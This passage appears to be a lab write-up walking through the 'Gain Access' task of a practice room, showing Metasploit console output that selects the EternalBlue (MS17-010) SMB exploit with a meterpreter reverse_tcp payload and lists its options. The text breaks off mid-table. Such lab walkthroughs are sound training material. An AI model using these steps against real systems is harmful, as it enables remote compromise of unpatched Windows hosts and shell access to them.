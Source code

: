 ## Task 2 Gain Access

### • Start Metasploit

> _No answer needed_

### • Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

> _No answer needed_

```
msf6 > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption

msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

### • Show options and set the one required value. What is the name of this value? (All caps for submission)

> RHOSTS

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.
                                             com/docs/using-metasploit/basics/using-metasploi
                                             t.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authent
                                             ication. Only affects Windows Server 2008 R2, Wi
                                             ndows 7, Windows Embedded Standard 7 target mach
                                             ines.
   SMBPass                         no        (Optional) The password for the specified userna
                                             me
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Tar
                                             get. Only affects Windows Server 2008 R2, Window
                                             s 7, Windows Embedded Standard 7 target machines
                                             .
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only
                                             affects Windows Server 2008 R2, Windows 7, Windo
                                             ws Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, n
```
